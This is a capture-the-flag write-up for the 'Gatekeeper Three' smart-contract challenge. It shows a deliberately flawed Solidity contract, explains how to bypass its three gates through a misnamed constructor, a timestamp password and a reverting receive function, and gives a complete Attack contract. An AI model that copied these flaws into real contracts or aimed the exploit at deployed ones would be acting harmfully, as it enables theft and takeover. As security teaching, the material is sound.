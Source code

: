 # Gatekeeper 3

## Challenge

You get a contract and want to become the entrant.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
  GatekeeperThree public target;
  address public trick;
  uint private password = block.timestamp;

  constructor (address payable _target) {
    target = GatekeeperThree(_target);
  }
    
  function checkPassword(uint _password) public returns (bool) {
    if (_password == password) {
      return true;
    }
    password = block.timestamp;
    return false;
  }
    
  function trickInit() public {
    trick = address(this);
  }
    
  function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
      target.getAllowance(password);
    }
  }
}

contract GatekeeperThree {
  address public owner;
  address public entrant;
  bool public allowEntrance;

  SimpleTrick public trick;

  function construct0r() public {
      owner = msg.sender;
  }

  modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
  }

  modifier gateTwo() {
    require(allowEntrance == true);
    _;
  }

  modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
      _;
    }
  }

  function getAllowance(uint _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
  }

  function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
  }

  function enter() public gateOne gateTwo gateThree {
    entrant = tx.origin;
  }

  receive () external payable {}
}
```

## Solution

The contract needs you to call the enter() function to become the entrant. The function is restricted by the 3 modifiers gateOne, gateTwo, and gateThree, which you need to pass, to be able to solve the challenge. 

### gateOne

```solidity
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

The first gate can easily be circumvented it checks for the msg.sender being the owner, but the tx.origin not being the owner. 

The owner can be overwritten thanks to a typo in the constructor. As it's called "function construct0r()" instead of "constructor()" it is treated like a normal function.

But now we still have to check our message.sender != tx.origin. We can achieve this by calling the construct0r as wekĺl as the enter function through a contract. 

### gateTwo

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

To pass through this gate, we need to know the value of the password. As this is initally set to the block.timestamp we could check the constructor transaction for when it was done, or read out the private variable ourself. 

We can also exploit a few other ways to get the allown even easier, as when you enter the wrong the password gets set to the actual block.timestamp. So if we call the function twice, once with a random val to set it to the actual timestamp and then again with the current timestamp, within one transaction, we are able to set allowEntrance to true. This works because, as one transaction can't overlap into another block, the block.timestamp is always the same. 

### gateThree

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

this first check for it's own balance being bigger than 0.001 ether. We can get around this by just sending it 0.002 ether using its receive function.

```solidity
address(target).call{value: 0.002 ether}("");
```

Now we need to make the receive() function of our msg.sender revert.

```solidity
receive() external payable
{
    //revert so .send() returns false
    revert();
}
```

### Exploit

Finally we combine all the functions to make the call pass


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./GatekeeperThree.sol";

contract Attack
{
    GatekeeperThree target;

    constructor (address payable _target) payable
    {
        require(msg.value == 0.002 ether);
        target = GatekeeperThree(_target);
    }

    function letsAGo() public
    {
        //make yourself the owner to pass gate1
        target.construct0r();

        // create trick & get allowance for gate2
        target.createTrick();
        target.getAllowance(block.timestamp);

        //send some money to pass gate3
        address(target).call{value: 0.002 ether}("");

        //call the enter function
        target.enter();
    }

    receive() external payable
    {
        //revert so .send() returns false
        revert();
    }
}
```


